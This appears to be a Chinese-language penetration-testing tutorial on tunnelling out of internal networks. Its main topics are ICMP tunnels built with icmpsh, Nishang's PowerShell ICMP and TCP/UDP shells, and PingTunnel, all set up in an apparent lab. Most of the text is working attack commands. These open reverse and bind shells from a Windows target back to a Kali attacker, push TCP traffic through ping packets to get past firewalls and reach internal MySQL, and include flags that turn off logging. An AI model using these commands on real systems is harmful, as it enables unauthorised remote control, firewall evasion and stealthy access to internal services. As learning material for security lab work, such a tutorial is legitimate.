

# 内网穿透-隧道通信

### 基于SSH的隧道


### ICMP隧道

#### 一、icmpsh工具

ICMP隧道简单实用，是一个比较特殊的协议。在一般的通信协议里，如果两台设备要进行通信，肯定需要开放端口，而在ICMP协议下就不需要。最常见的ping命令就是利用的ICMP协议，攻击者可以利用命令行得到比回复更多的ICMP请求。在通常情况下，每个ping命令都有相应的回复与请求。

在一些网络环境中，如果攻击者使用各类上层隧道(例如：HTTP隧道、DNS隧道、常规正/反向端口转发等)进行的操作都失败了，常常会通过ping命令访问远程计算机，尝试建立ICMP隧道，将TCP/UDP数据封装到ICMP的ping数据包中，从而穿过防火墙(防火墙一般不会屏蔽ping的数据包)，实现不受限制的访问访问。

常见的ICMP隧道工具有：icmpsh、PingTunnel、icmptunnel、powershell icmp等。本节内容主要讲解icmpsh工具，下载地址：https://github.com/inquisb/icmpsh

1、在目标主机：Windows 2016上运行 icmpsh.exe

```
icmpsh.exe -t 192.168.12.135       # 其他参数请参考 -h
```

2、在攻击主机：Kali 上运行以下指令

```
python2 ./icmpsh_m.py 192.168.12.135 192.168.12.136
```

因为icmpsh工具要代替系统本身的ping命令的应答程序，所以需要输入如下命令来关闭本地系统的ICMP答应（如果要恢复系统答应，则设置为0），否则Shell的运行会不稳定。在Kali上修改以下参数：

```
# sysctl -w net.ipv4.icmp_echo_ignore_all=1    # 设置为0可以还原
```

目前Python2.7的版本已经不是Kali系统的默认设置，Kali最新版本运行python或pip命令时，均使用的是Python3的版本，而icmpsh的Python脚本依然支持的是Python2，所以需要先安装Python2.7的pip命令：

```
# curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py 
# python2 get-pip.py
```

并将pip2导出到环境变量中：export PATH=/home/denny/.local/bin:$PATH

如果提示：ERROR: Command errored out with exit status 1: python setup.py egg_info Check the logs for full command output.的错误，说明PIP和setuptools没有更新到最新版本，运行以下命令完成更新：

```
# pip install --upgrade pip
# pip install --upgrade setuptools
```

如果提示：You need to install Python Impacket library first，则运行以下命令序列，先行安装依赖。

```
# pip2 install impacket  安装完成后再次尝试，如果清空有问题，尝试以下操作：

# git clone https://github.com/SecureAuthCorp/impacket.git
# cd impacket
# pip2 install -r requirements.txt
# python2 setup.py install
```

3、再次运行 icmpsh.exe ，并运行 icmpsh_m.py 完成反弹，可以执行任意Windows命令，监控通信过程，全是ICMP协议。


并且通过分析数据包发现，当响应的内容太多时，icmpsh会将内容分成多个数据包进行发送。

> 如果Windows反弹回来的命令行有乱码，则直接执行：chcp 65001的命令即可修正。

#### 二、PowerShell ICMP客户端

icmpsh.exe只能运行于Windows环境，而如果使用PowerShell ICMP客户端，则可以直接运行于任何有PowerShell的环境中。

1、在Kali上正常运行icmpsh

```
python2 ./icmpsh_m.py 192.168.12.135 192.168.12.136
```

2、在Windows环境运行NiShang中的icmp模块：

下载 NiShang 框架：https://github.com/samratashok/nishang，然后进入PowerShell环境中，执行以下指令

```
cd C:\ME\nishang-0.7.6\Shells
Import-Module .\Invoke-PowerShellIcmp.ps1
Invoke-PowerShellIcmp 192.168.12.135
```

此时，在Kali中获取Windows 2016的反弹Shell。

3、顺带了解一下NiShang框架中基于TCP的正向连接Shell

在Windows 2016上执行：

```
Import-Module .\Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Bind -Port 6666
```

此时将进入监听状态，然后在Kali上运行以下命令进行正向连接：

```shell
nc -nv 192.168.12.136 6666

(UNKNOWN) [192.168.0.165] 6666 (?) open
Windows PowerShell running as user Administrator on WIN-E9RKNSECG6A
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\ME\nishang-0.7.6\Shells>
```

4、使用TCP/UDP协议的反弹Shell

```
先在Kali上运行：
nc -lvp 5555 (TCP协议)  或  nc -luvp 5555 (UDP协议)

再在Windows上运行：
cd C:\ME\nishang-0.7.6\Shells\
Import-Module .\Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.12.135 -Port 5555

此时，Kali上获取反弹Shell成功。如果是UDP协议，则使用 Invoke-PowerShellUdp
```

#### 三、PingTunnel

Kali内置ptunnel，如需要单独下载，下载地址为：http://www.cs.uit.no/~daniels/PingTunnel/#download，Windows版本可以寻找别人已经编译好的exe文件，如：https://bbs.pediy.com/thread-256599.htm。但是目前在Windows环境已经编译好的版本不稳定，建议如果跳板机为Linux环境时使用。

1、如果需要安装在CentOS环境中，安装步骤如下：

```shell
# 安装libpcap的依赖环境
yum -y install byacc
yum -y install flex bison

# 安装libpcap依赖库
wget http://www.tcpdump.org/release/libpcap-1.9.0.tar.gz
tar -xzvf libpcap-1.9.0.tar.gz
cd libpcap-1.9.0
./configure
make && make install

# 安装PingTunnel
wget http://www.cs.uit.no/~daniels/PingTunnel/PingTunnel-0.72.tar.gz
tar -xzvf PingTunnel-0.72.tar.gz
cd PingTunnel
make && make install

# 如果运行ptunnel时出现以下错误：
error while loading shared libraries: libpcap.so.1: cannot open shared object file: No such file or directory
# 则作如下操作：
[root@centqiang ~]# find / -name libpcap.so
/usr/local/lib/libpcap.so
找到libpcap.so目录为：/usr/local/lib
编辑：/etc/ld.so.conf，在末尾加上：/usr/local/lib
再运行：ldconfig
```

2、将该CentOS也配置双网卡，并扮演Windows2016的跳板角色，在CentOS机器上编译和运行ptunnel服务器端：

```
./ptunnel
```

3、在攻击机kali上运行客户端，并连接到ptunnel服务器，并指定代理端口和目标IP和端口：

```
sudo ptunnel -p 192.168.12.149 -lp 8899 -da 10.10.10.133 -dp 80
```

4、直接访问 localhost:8899便可以访问到 10.10.10.129:80 端口

> 为ptunnel 添加 -x 参数， 可以设置连接密码（服务器和客户端均添加 -x 参数并且密码一致才可以连接。




5、代理非HTTP端口

如果要使用ptunnel隧道代理非HTTP端口，如MySQL的3306端口，则可以保持跳板机的服务器端启动命令不变，而将客户端命令的端口进行修改：

```
ptunnel -p 192.168.12.149 -lp 8899 -da 10.10.10.133 -dp 3306
```

然后使用MySQL命令访问本地的8899端口即可实现远程访问：

```
# mysql -uqiang -p123456 -h127.0.0.1 -P 8899
```

#### 四、使用Go语言版本的pingtunnel

1、在 https://github.com/esrrhs/pingtunnel 上下载pingtunnel对应版本

2、在CentOS跳板机中运行服务器端：

```
# ./pingtunnel -type server
```

3、在Kali中运行客户端并进行Socks5代理：

```
# ./pingtunnel  -type client -l :1080 -s 192.168.112.188 -sock5 1
```

4、或直接代理TCP的某个端口

```
# ./pingtunnel -type client -l :3306 -s 192.168.112.188 -t 10.10.10.129:3306 -tcp 1此时运行以下指令登录MySQL：# mysql -uqiang -p123456 -h127.0.0.1 -P 3306
```

5、运行过程如果出现过多日志，则可以使用 -nolog 1 -noprint 1 来禁用日志信息

```
# ./pingtunnel -type server -nolog 1 -noprint 1# ./pingtunnel -type client -l :3306 -s 192.168.112.188 -t 10.10.10.129:3306 -tcp 1 -nolog 1 -noprint 1
```

#### 五、icmptunnel

操作和用法类似